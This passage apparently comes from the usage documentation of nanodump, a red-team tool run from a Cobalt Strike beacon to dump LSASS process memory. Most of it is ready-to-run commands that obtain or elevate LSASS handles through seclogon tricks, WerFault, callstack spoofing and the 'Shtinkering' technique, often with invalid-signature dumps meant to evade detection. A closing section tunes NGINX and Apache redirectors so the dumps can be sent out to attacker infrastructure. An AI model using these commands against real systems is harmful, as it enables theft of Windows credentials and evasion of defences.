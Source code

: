 Trick seclogon to open a handle to LSASS and duplicate it, then download the dump with an invalid signature:
```
beacon> nanodump --seclogon-duplicate
```

Make the WerFault.exe process create a full memory dump in the Temp folder:
```
beacon> nanodump --werfault C:\Windows\Temp\
```

Open a handle to LSASS with an invalid callstack and download the minidump with an invalid signature:
```
beacon> nanodump --spoof-callstack svchost
```

Use the Shtinkering techinque:
```
beacon> nanodump --shtinkering
```

Obtain a handle using seclogon leak local and create the dump using the Shtinkering techinque:
```
beacon> nanodump --seclogon-leak-local --shtinkering
```

Obtain a handle with low privs and elevate it using _duplicate local_:
```
beacon> nanodump --elevate-handle
```

Obtain a handle with low privs using a valid calling stack and elevate it using _duplicate local_:
```
beacon> nanodump --elevate-handle --spoof-callstack rpc
```

Duplicate an existing low priv handle and elevate it using _duplicate local_:
```
beacon> nanodump --duplicate --elevate-handle
```

<h2 id="redirectors">5. HTTPS redirectors</h2>

If you are using an HTTPS redirector (as you should), you might run into issues when downloading the dump filessly due to the size of the requests that leak the dump.  
Increase the max size of requests on your web server to allow nanodump to download the dump.

#### NGINX
```
location ~ ^...$ {
    ...
    client_max_body_size 50M;
}
```
#### Apache2
```
<Directory "...">
    LimitRequestBody  52428800
</Directory>
```
